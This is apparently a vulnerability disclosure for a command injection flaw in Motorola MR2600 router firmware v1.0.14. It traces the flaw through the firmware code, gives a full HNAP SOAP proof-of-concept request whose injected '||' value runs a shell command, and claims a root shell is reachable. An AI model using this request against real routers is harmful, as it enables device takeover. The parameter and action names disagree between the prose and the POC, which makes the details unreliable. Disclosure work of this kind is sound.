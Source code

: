 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522104519517](img/image-20220522104519517.png)

Program by getting SaveSysEmailParams/SMTPServerPort the value of the parameter, passed to v9

![image-20220522104536102](img/image-20220522104536102.png)

After check_command_inject_ch function, check the command injection, v9, we can use '| |' symbol to bypass

The program then uses the nvram_SAFE_set function to set SysLogMail_SMTPServerPort to v9

![image-20220522104557711](img/image-20220522104557711.png)

In the rc file, the program uses nvram_safe_GET to get the value of SysLogMail_SMTPServerPort and passes it to V9. Then it uses sprintf to format V9 into V33. Finally, it uses twSystem to execute v33. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SysLogMail_SMTPServer xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerAddress> % || ls > /tmp/456 || echo 1</SMTPServerAddress>
</SysLogMail_SMTPServer>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](../../../d-link/dir-816/2/img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)